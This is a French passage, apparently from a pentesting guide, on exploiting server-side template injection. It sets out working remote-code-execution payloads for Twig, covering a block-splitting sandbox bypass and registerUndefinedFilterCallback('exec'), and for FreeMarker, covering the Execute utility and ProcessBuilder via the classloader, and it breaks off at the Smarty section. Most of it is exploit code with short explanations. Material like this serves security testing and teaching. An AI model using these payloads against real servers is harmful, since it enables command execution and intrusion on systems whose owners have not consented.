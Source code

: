 ### Exploitation Twig (PHP)

Twig présente des restrictions par défaut mais reste exploitable via des techniques spécifiques. La méthode de contournement la plus efficace utilise les blocks et filtres natifs.

**RCE via Sandbox Bypass avec Blocks :**

```php
# Technique de block splitting pour contournement
{%block X%}whoamiINTIGRITIsystem{%endblock%}
{%set y=block('X')|split('INTIGRITI')%}
{{[y|first]|map(y|last)|join}}
```

Cette technique fonctionne en :

1. Définissant un block avec la commande et un délimiteur
    
2. Séparant le contenu avec `split()`
    
3. Utilisant `map()` pour exécuter le filtre `system`
    

**Exploitation via call\_user\_func :**

Les versions vulnérables de Twig exposent `call_user_func` via la méthode `getFilter` :

```php
# Enregistrement d'exec comme callback
{{_self.env.registerUndefinedFilterCallback("exec")}}

# Exécution de commande
{{_self.env.getFilter("id")}}
```

### Exploitation FreeMarker (Java)

FreeMarker nécessite une approche différente basée sur les objets Java exposés.

**RCE via Objets Java Exposés :**

```java
# Accès aux classes Java dangereuses
<#assign ex="freemarker.template.utility.Execute"?new()>
${ex("id")}

# Alternative avec processBuilder
<#assign classLoader=object_class.getClassLoader()>
<#assign clazz=classLoader.loadClass("java.lang.ProcessBuilder")>
<#assign constructor=clazz.getConstructor(classLoader.loadClass("[Ljava.lang.String;"))>
<#assign process=constructor.newInstance(["whoami"])>
${process.start().waitFor()}
```

### Exploitation Smarty (PHP)

Smarty en mode non-sécurisé permet l'exécution directe de PHP :
